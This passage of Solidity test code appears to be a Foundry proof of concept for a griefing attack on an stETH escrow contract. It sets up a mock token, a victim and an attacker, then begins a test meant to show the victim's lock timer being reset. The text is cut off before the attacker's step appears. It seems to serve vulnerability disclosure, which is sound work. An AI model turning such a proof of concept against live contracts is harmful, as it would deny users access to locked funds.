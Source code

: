```solidity
        uint256 amount
    ) external returns (bool) {
        balanceOf[msg.sender] -= amount;
        balanceOf[recipient] += amount;
        return true;
    }
}

// Minimal interface for the Escrow contract.
interface IEscrow {
    error MinAssetsLockDurationNotPassed(Timestamp lockDurationExpiresAt);

    function lockStETH(uint256 shares) external;

    function lockUnstETH(
        address holder,
        uint256[] calldata unstETHIds,
        IWithdrawalQueue.WithdrawalRequestStatus[] calldata statuses
    ) external;

    function unlockStETH() external returns (uint256);
}

contract GriefingPoC_Test is Test {
    // --- Contract & Actor Addresses ---
    IEscrow internal escrow = IEscrow(address(0x01)); // Escrow remains a mocked interface
    MockSTETH internal steth; // stETH will now be a deployed mock contract

    address internal victim = makeAddr("victim");
    address internal attacker = makeAddr("attacker");

    Duration internal MIN_ASSETS_LOCK_DURATION = Duration.wrap(7 days);

    function setUp() public {
        // FINAL FIX (v4): Deploy a real MockSTETH contract.
        steth = new MockSTETH();

        // Now, `deal` targets a real contract address with storage, so it will succeed.
        deal(address(steth), victim, 100e18);
    }

    /// @notice This test demonstrates the core of the griefing attack.
    function test_Griefing_ResetLockTimer() public {
        // --- 1. SETUP ---
        uint256 lockAmount = 100e18;

        vm.startPrank(victim);
        steth.approve(address(escrow), lockAmount);

        uint256 initialLockTimestamp = block.timestamp;
        console.log("Victim locks assets at timestamp:", initialLockTimestamp);
        // escrow.lockStETH(lockAmount); // Mocked call
        vm.stopPrank();

        // --- TIME TRAVEL ---
        uint256 unlockEligibleTimestamp = initialLockTimestamp +
            Duration.unwrap(MIN_ASSETS_LOCK_DURATION) +
            1;
        vm.warp(unlockEligibleTimestamp);

        console.log("Time warps to:", unlockEligibleTimestamp);
        console.log("Victim should now be able to unlock.");

```